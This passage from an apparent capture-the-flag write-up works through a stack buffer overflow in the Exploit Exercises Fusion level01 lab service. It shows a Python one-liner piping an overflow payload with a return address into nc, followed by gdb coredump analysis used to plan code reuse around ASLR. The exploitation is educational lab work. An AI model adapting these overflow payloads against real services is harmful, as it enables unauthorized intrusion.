 Alright, so we still redirect execution as expected, but we
didn't crash on a breakpoint trap like last time. Instead we
just die with a typical segfault. Comparing our instruction
pointer with our stack pointer, it becomes clear what's happened:
we're not jumping to where our shellcode is! In fact, since
the stack grows down, we aren't even jumping into the stack of the function!

So now, we have to deal with this challenge's psuedo-ASLR\footnote{I say psuedo because i've yet to see the stack pointer change between executions. While the fusion VM certainly has ASLR enabled, and the stack pointer changes after a reboot, something's not quite right in however ASLR was implemented on this challenge.}.
Taking the lead of Matt Andreko\footnote{http://www.mattandreko.com/2012/07/exploit-exercises-fusion-01.html},
we will use some code reuse to insulate ourselves from having to deal with
addresses. Let's do some more exploring with our coredump:

\begin{lstlisting}
fusion@fusion:~\$ sudo rm /core; python -c 'print "GET " + "A"*139 + "\x95\xf9\xff\xbf" + " HTTP/1.1\n" + "\xcc"*2' | nc localhost 20001
fusion@fusion:~\$ sudo gdb -q --core /core
[New LWP 2146]
Core was generated by `/opt/fusion/bin/level01'.
Program terminated with signal 11, Segmentation fault.
#0  0xbffff995 in ?? ()
(gdb) i r
eax            0x1      1
ecx            0xb76d98d0       -1217554224
edx            0xbfe9f490       -1075186544
ebx            0xb7851ff4       -1216012300
esp            0xbfe9f490       0xbfe9f490
ebp            0x41414141       0x41414141
esi            0xbfe9f544       -1075186364
edi            0x8049ed1        134520529
eip            0xbffff995       0xbffff995
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x/x \$esi
0xbfe9f544:     0x0acccc0a
(gdb) x/x \$edx
0xbfe9f490:     0xbfe9f400
(gdb) x/x 0xbfe9f400
0xbfe9f400:     0x4141412f
(gdb) x/16x 0xbfe9f400-8
0xbfe9f3f8:     0x080484fc      0x00000200      0x4141412f      0x41414141
0xbfe9f408:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfe9f418:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfe9f428:     0x41414141      0x41414141      0x41414141      0x41414141
\end{lstlisting}

